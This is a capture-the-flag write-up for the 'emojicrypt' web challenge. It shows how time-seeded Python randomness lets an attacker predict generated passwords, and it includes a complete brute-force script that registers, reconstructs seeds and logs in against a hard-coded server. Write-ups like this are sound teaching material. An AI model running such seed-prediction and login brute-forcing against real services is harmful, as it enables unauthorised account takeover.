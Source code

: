 
# Writeup for `web/emojicrypt`, Hacking Time and Randomization

## Vulnerability Overview

`web/emojicrypt` Uses `random.choice(NUMBERS)  for  _  in  range(32)` with the default seed. Normally, in python3, the default seed is the current Unix timestamp. (See https://www.unixtimestamp.com/ for more explanation on the Unix Timestamp format.) Because of this, we can simply find out the timestamp by going from 50 seeds before the timestamp to 50 seeds after, allowing us to find out the password.

## Application Architecture

The application consists of:
1. A web frontend that allows users to login and register
2. A random password generator via `random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))`
3. A simple database accessed by `DATABASE  =  'users.db'` and `cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?",  (username,))` 

## Vulnerability Details

The vulnerability exists in the `register()` function, specifically in line 46:

```python
random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))
```

Looking at the definition of python's `random.seed()` function, it states that:
` None or no argument seeds from current time or from an operating
        system specific randomness source if available.
`
Which means that since the server is running on Linux, we can assume that the seed is derived from the Unix Time-stamp. which means that we can potentially get the seed just by looking at the time.

## Exploit Chain
To demonstrate this part of the writeup, we will pretend that english is code.
1. First, Register an account:
```psuedocode

unique_suffix  =  randnum(1000,9999)
Username = "Wehacking" + unique_suffix	
Email  =  "exploit_(unique_suffix)@example.com"
timebeforeregister = gettimebeforeregister
startsession
payload = {'username' : Username, 'email' : Email}
post(payload)
if respcode is 200:
	print its working!!
```
	


2. Do the following:
   - have a variable thats `timebeforegister` + 1 and `timebeforegister` - 50
   - Then loop thru each of these numbers generating an instance of that seed (like `1744021834`,`1744021835`,`1744021836` and so on.
   - Generate a password with each seed
   - Try each password until you get the correct password.

## Root Cause Analysis


1. **Poor Time-Based Attack Mitigation**: The application relies on time-based values (the Unix timestamp) to seed the random generator. This is insecure because an attacker can brute-force possible seeds within a range of Unix timestamps, giving them a manageable set of seeds to test.
2. **Lack of Rate-Limiting or Delays**: The application is vulnerable to brute-force attacks by allowing to repeatedly try passwords within a small window without rate-limiting or delays between attempts. Because of this, the attacker can try a large number of passwords in a short amount of time, reducing the effort needed to guess the correct password.

## Automation Code
```py 
import requests
import random
import time
import sys

# --- Configuration ---
# <<< CHANGE MADE HERE >>>
BASE_URL = "http://52.188.82.43:8060"
# <<< END CHANGE >>> 

REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"


unique_suffix = str(random.randint(1000, 9999)) # Add randomness 
USERNAME = f"exploit_user_{unique_suffix}"
EMAIL = f"exploit_{unique_suffix}@example.com"

# Constants from the Flask app (ensure these match the target server)
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
 
# How many seconds around the registration time to check for seeds
SEED_SEARCH_RANGE_SECONDS = 50 # Increased slightly for potential network delay/clock skew

# --- Exploit Logic ---

print(f"Targeting server: {BASE_URL}")
print(f"Attempting to register user: {USERNAME} / {EMAIL}")

# Get time just before registration
start_time = time.time()
registration_timestamp_guess = int(start_time)

try:
    # Use a session to handle cookies if necessary
    session = requests.Session()

    register_payload = {
        'username': USERNAME,
        'email': EMAIL
    }
    # Attempt registration
    reg_response = session.post(REGISTER_URL, data=register_payload, timeout=15) # Increased timeout
    print(f"Registration attempt status: {reg_response.status_code}")

    # Check if registration seemed successful (redirect expected, or 400 if user exists)
    if reg_response.status_code == 200:
        print("Registration successful.")
    elif reg_response.status_code == 400:
        print("Registration failed (status 400) - User likely already exists. Trying to log in anyway.")

    else:
         print(f"Warning: Unexpected registration status code: {reg_response.status_code}")
         print(f"Response text: {reg_response.text}")
         # Continue anyway, maybe it still worked enough

except requests.exceptions.RequestException as e:
    print(f"Error during registration: {e}")
    sys.exit(1)

print(f"Registration attempt finished. Estimated timestamp: {registration_timestamp_guess}")
print(f"Searching seeds from {registration_timestamp_guess - SEED_SEARCH_RANGE_SECONDS} to {registration_timestamp_guess + SEED_SEARCH_RANGE_SECONDS}")

found_flag = False
# Iterate through potential seeds (timestamps around registration time)
for seed_offset in range(-SEED_SEARCH_RANGE_SECONDS, SEED_SEARCH_RANGE_SECONDS + 1):
    current_seed = registration_timestamp_guess + seed_offset
    
    print(f"[*] Trying seed: {current_seed}...")
    

    # Seed the local random generator
    random.seed(current_seed)

    # --- Simulate server's random generation ---
    # 1. Simulate salt generation (advance the PRNG state 12 times)
    _ = random.choices(EMOJIS, k=12)

    # 2. Simulate password generation (next 32 random choices)
    predicted_password = ''.join(random.choice(NUMBERS) for _ in range(32))

    # --- Attempt Login ---
    login_payload = {
        'username': USERNAME,
        'password': predicted_password
    }

    try:
     
        login_response = session.post(LOGIN_URL, data=login_payload, allow_redirects=False, timeout=10)

        if login_response.status_code == 200:
            # Print a newline to clear the "... trying seed" line
            print("\n" + "="*20)
            print(f"[+] SUCCESS! Found correct password with seed: {current_seed}")
            print(f"[+] Used Username: {USERNAME}")
            print(f"[+] Predicted Password: {predicted_password}")
            print(f"[+] Flag/Response:")
            # Try to decode if bytes, otherwise print text
            try:
                print(login_response.content.decode('utf-8'))
            except UnicodeDecodeError:
                print(login_response.content) 
            print("="*20 + "\n")
            found_flag = True
            break 

    except requests.exceptions.Timeout:
       
        print(f"[!] Timeout during login attempt with seed {current_seed}. Trying next...", ' '*20, end='\r')
        sys.stdout.flush()
        # Continue to the next seed
    except requests.exceptions.RequestException as e:
        # Print a newline to clear the "... trying seed" line
        print("\n")
        print(f"[!] Error during login attempt with seed {current_seed}: {e}")
        # Potentially add a small delay before continuing if errors persist
        time.sleep(0.5)
        # Continue to the next seed

# Clear the "Trying seed..." line if loop finishes without success
print(" " * 80, end='\r')

if not found_flag:
    print("\n[-] Exploit failed. Could not find the correct password within the seed range.")
    
```
